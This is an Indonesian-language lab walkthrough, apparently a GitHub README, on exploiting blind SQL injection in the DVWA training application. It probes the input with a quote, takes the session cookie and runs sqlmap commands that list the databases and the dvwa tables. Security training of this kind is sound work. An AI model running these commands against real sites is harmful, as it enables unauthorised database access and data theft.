<b> HOW TO SOLVE SQL INJECTION BLIND </b>


Sekarang kita coba menggunakan  
```
'1
```
 apakah vulnerable atau tidak
 
![Screenshot (464)](https://user-images.githubusercontent.com/118157585/216914220-44732cad-9ef5-48d2-a694-daf675c2651d.png)

dammmmn! ternyata vulnerable.

![Screenshot (465)](https://user-images.githubusercontent.com/118157585/216914282-690c2d67-87af-4de8-a98a-a38e345627c6.png)

nah sekarang saatnya kita copy link tersebut, untuk kita tes di tools <b><i> SQL Injection </i></b>

![Screenshot (467)](https://user-images.githubusercontent.com/118157585/216914420-1432de38-8c99-4103-b26b-ed528f4114c2.png)

sebelum ke <b><i> SQL Injection </i></b> kita cari tahu dulu PHPSESSID nya, yaitu dengan klik kanan pada tampilan dvwa SQLI Blind, llau klik inspect element, nah setelah itu klik storage.

![Screenshot (468)](https://user-images.githubusercontent.com/118157585/216914472-d1365172-f36a-4f67-b3fd-b78ce72bccf4.png)

nahhhh sekarang kita coba crack databases nya, ada apa ajasih disana. dengan mengetikkan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' --dbs
```

ternyata disana ada <b><i> * dvwa dan * information_scheme </i></b>.

![Screenshot (473)](https://user-images.githubusercontent.com/118157585/216918953-f94e854d-a85d-4602-b0b2-c8c0d89ba805.png)

sekarang kita lanjut untuk mencari tables nya, kita crack databases <b><i> dvwa </i></b> , dengan mengetikkan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' -D dvwa --tables
```

nah disana terdapat 2 tables yaitu <b><i> guestbook dan users </i></b>

![Screenshot (469)](https://user-images.githubusercontent.com/118157585/216914534-a11d21ed-488b-4cc2-964c-80d04f2316c6.png)
![Screenshot (470)](https://user-images.githubusercontent.com/118157585/216914627-66c0f0cc-8238-4fb1-9e14-3a5366b64288.png)
![Screenshot (471)](https://user-images.githubusercontent.com/118157585/216914738-07273ce5-2666-4607-89a5-e8390b9aa9c0.png)
![Screenshot (472)](https://user-images.githubusercontent.com/118157585/216914855-fea2c425-2fe1-4fad-8929-a3d3e1584747.png)
